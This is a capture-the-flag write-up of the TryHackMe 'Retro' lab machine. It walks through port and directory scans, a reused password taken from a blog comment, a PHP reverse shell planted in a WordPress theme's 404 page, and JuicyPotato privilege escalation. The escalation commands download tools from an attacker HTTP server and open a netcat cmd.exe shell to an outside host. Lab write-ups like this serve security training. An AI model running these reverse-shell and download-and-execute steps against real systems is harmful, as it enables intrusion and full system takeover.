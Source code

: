 +++
title = 'THM: Retro'
date = 2024-09-02T11:15:07+03:00
draft = false
+++

## Initial Scans

### Port Scan

Initial port scan showed open web and RDP ports. Based on the output below the system was detected to be a Windows host running IIS web server.

````
nmap -sV 10.10.214.63

Starting Nmap 7.60 ( https://nmap.org ) at 2024-09-02 09:16 BST
Nmap scan report for ip-10-10-214-63.eu-west-1.compute.internal (10.10.214.63)
Host is up (0.00052s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 02:F2:D4:2C:99:29 (Unknown)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.31 seconds
````

### Web Enumeration & Scan

#### / 

Version: IIS httpd 10.0.

The homepage page displays the default ISS page. Enumerated directories using Gobuster.

````
gobuster dir -u http://10.10.214.63 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.214.63
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/09/02 09:19:28 Starting gobuster
===============================================================
/retro (Status: 301)
/Retro (Status: 301)
===============================================================
2024/09/02 09:20:06 Finished
===============================================================
````

#### Manual Enumeration

Browsing the web page an interesting comment from user "Wade" is found here:
http://10.10.214.63/retro/index.php/2019/12/09/ready-player-one/#comment-2

````
Leaving myself a note here just in case I forget how to spell it: parzival
````

#### /retro

Scanning /retro with Gobuster shows that the web site is built on a Wordpress instance. 

`````
gobuster dir -u http://10.10.214.63/retro -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.244.218/retro
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/09/04 11:11:33 Starting gobuster
===============================================================
/wp-content (Status: 301)
/wp-includes (Status: 301)
/wp-admin (Status: 301)
===============================================================
2024/09/04 11:14:09 Finished
===============================================================
`````

## RDP

Logged in with wage:parzival. The user flag is on the user Wade's desktop.

### Enumeration

No other users except for Administrator.

`````
PS C:\Users\Wade> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
`````

After running winPEAS and LaZagne as Wade and running manual enumeration no clear privilege escalation path was found. At that point another attack path was recognized. 

## Wordpress

Login page can be found from /retro/wp-login.php. Credentials wade:parzival gives an admin access to Wordpress.

### Install Reverse Shell

Webshell was installed using Appearance > Theme Editor > Twenty Sixteen. A PHP reverse shell was installed in 404.php template. 

The shell used can be found from: https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php

````
# Contents of 404.php
<?php
/**
 * The template for displaying 404 pages (not found)
 *
 * @package WordPress
 * @subpackage Twenty_Sixteen
 * @since Twenty Sixteen 1.0
 */

class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer  = 1024;    // read/write buffer size
    private $clen    = 0;       // command length
    private $error   = false;   // stream read/write error
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;

<omitted for brevity>
````

Launching and receiving the shell was done as shown below.

````
rlwrap nc -nvlp 4444
curl http://10.10.244.218/retro/wp-content/themes/twentysixteen/404.php
````

## OS Enumeration

OS level enumeration was done using the reverse shell.

````
# User
C:\inetpub\wwwroot\retro\wp-content\themes\twentysixteen>whoami
iis apppool\retro

# Privileges
C:\inetpub\wwwroot\retro\wp-content\themes\twentysixteen>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
````

## Privilege Escalation

The user "iis apppool" has SeImpersonatePrivilage enabled which can be used to escalate privileges.

JuicyPotato exploit was used and it can be found from https://github.com/ohpe/juicy-potato. 

````
# Attack machine
rlwrap nc -nvlp 4455
python -m http.server 8000

# Target machine
mkdir C:/transfer
cd C:/transfer
wget http://10.10.168.116:8000/JuicyPotato.exe -OutFile jp.exe
wget http://10.10.168.116:8000/nc.exe -OutFile nc.exe
.\jp.exe -l 4455 -t * -a "/c C:\transfer\nc.exe 10.10.95.172 4455 -e cmd.exe" -p c:\windows\system32\cmd.exe
````

After that the root flag was found from C:/Users/Administrator/Desktop. 

## Lessons Learned
- Remember that web server user might have and often has different privs compared to normal user. This realization cost me some hours. I can but hope to remember this point next time. 
- I hadn't used PHP reverse shell with Wordpress before. That worked like charm and reduced some tedious steps I typically do to establish a reverse shell. This will go in the standard toolbox. 

